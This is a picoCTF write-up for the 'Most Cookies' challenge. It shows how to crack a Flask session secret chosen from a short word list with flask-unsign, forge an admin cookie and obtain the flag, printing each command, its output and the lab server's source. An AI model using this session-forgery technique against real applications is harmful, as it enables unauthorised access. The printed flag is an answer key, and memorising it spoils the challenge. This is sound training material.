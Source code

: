 # Most Cookies

## Description

Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [http://mercury.picoctf.net:65344/](http://mercury.picoctf.net:65344/) (view server.py reference at the end of page)

## Hint(s)

1. How secure is a flask cookie?

## Writeup 
I Started by looking at the source code

```python
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)
```
I didn't know much about flask cookies but this part indicated that a secret key was used to generate the cookie
```python
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp
```
The code was confusing at first, but analyzing it more we can see that we have to become admin in order to get the flag. How do we do that?

First i did some research on flask cookies work. They use a secret key (as we can in the source code) to encrypt the cookie. In order to be able to change the cookie we have to find what secret key was used and then we can create our own payload.

I started by decoding the cookie. At first i used base64 which worked but gave me some unreadable characters at the end and got me basically nowhere.

After doing some more research, i came accross flask-unsign and realized that its the best tool to use for this challenge. 

You can install flask-unsign using : 
```
 $ pip3 install flask-unsign[wordlist]
 ```
First, we can get the flask cookie and decode it with : 
```
$ flask-unsign --decode --server http://mercury.picoctf.net:65344/
```
Which returns:
```
[*] Server returned HTTP 302 (FOUND)
[+] Successfully obtained session cookie: eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YsAYmQ.qReaqo1ZSnYrCyHkO8GWelrg2bI
{'very_auth': 'blank'}
```
Refering back to the code, we can see that to become admin we have to modify the cookie to admin, but that requires a secret key. Then we remember that in the source code, the secret key was chosen randomly from a list of words. 

flask-unsign has an option which allows you to bruteforce cookies with a worldlist in order to find the secret key, exactly what we're looking for!

I then took the words from the source code, put them in a .txt file and bruteforced the cookie using this command : 
```
$ flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YsAYmQ.qReaqo1ZSnYrCyHkO8GWelrg2bI" --wordlist wordlist.txt
```
We get: 
```
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attempts
'fortune'
```
And we have the secret key!
Now all we need to do is create our own cookie to get the flag.
We do this by using :
```
$ flask-unsign --sign --secret fortune --cookie "{'very_auth': 'admin'}" 
```
This returns : 
```
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YsAZzg.vtCG7cliX5WhpIoqQJKpXXeLSqI
```
We're pretty much finished! 
All we have to do now is go to the URL and change the session cookie to our forged one.

**note** : flask cookies are by default named "session".

And then we get the flag : **picoCTF{pwn_4ll_th3_cook1E5_25bdb6f6}**

## References  
## server.py

```python
from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session
import random
app = Flask(__name__)
flag_value = open("./flag").read().rstrip()
title = "Most Cookies"
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)

@app.route("/")
def main():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "blank":
			return render_template("index.html", title=title)
		else:
			return make_response(redirect("/display"))
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/search", methods=["GET", "POST"])
def search():
	if "name" in request.form and request.form["name"] in cookie_names:
		resp = make_response(redirect("/display"))
		session["very_auth"] = request.form["name"]
		return resp
	else:
		message = "That doesn't appear to be a valid cookie."
		category = "danger"
		flash(message, category)
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/reset")
def reset():
	resp = make_response(redirect("/"))
	session.pop("very_auth", None)
	return resp

@app.route("/display", methods=["GET"])
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

if __name__ == "__main__":
	app.run()
```

### wordlist.txt

```
snickerdoodle
chocolate chip
oatmeal raisin
gingersnap
shortbread
peanut butter
whoopie pie
sugar
molasses
kiss
biscotti
butter
spritz
snowball
drop
thumbprint
pinwheel
wafer
macaroon
fortune
crinkle
icebox
gingerbread
tassie
lebkuchen
macaron
black and white
white chocolate macadamia
```
